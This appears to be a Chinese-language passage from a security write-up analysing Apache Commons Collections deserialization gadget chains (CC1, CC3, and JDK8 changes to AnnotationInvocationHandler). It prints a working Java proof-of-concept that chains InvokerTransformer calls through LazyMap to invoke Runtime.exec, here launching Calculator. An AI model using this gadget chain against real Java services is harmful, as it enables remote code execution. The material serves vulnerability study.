 ## Basics

**适用版本**：3.1-3.2.1，JDK 1.8

CC1、CC3 适用于 JDK7的环境，通过调用 AnnotationInvocationHandler 实现了 RCE，但是 JDK8 更新了 AnnotaionInvocationHandler 方法，使其 `memberValues` 变量不为构造的 LazyMap 实例

![](Commons-Collections-反序列化利用链分析/image-20210211151623182.png)

回顾我们之前 CC1 的 RCE demo

 **CC1  LazyMap RCE demo**

```java
public class CommandDemo {
    public static void main(String[] args) throws ClassNotFoundException, NoSuchMethodException,
            IllegalAccessException, InvocationTargetException, InstantiationException {
        ChainedTransformer chainDemo = new ChainedTransformer(new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",
                        new Class[]{String.class, Class[].class},
                        new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke",
                        new Class[]{Object.class, Object[].class},
                        new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec",
                        new Class[]{String.class},
                        new Object[]{ ("/Applications/Calculator.app/Contents/MacOS/Calculator")})});
        Map innerMap = new HashMap();
        LazyMap mapDemo = (LazyMap) LazyMap.decorate(innerMap, chainDemo);
        mapDemo.get("random");
    }
}
```
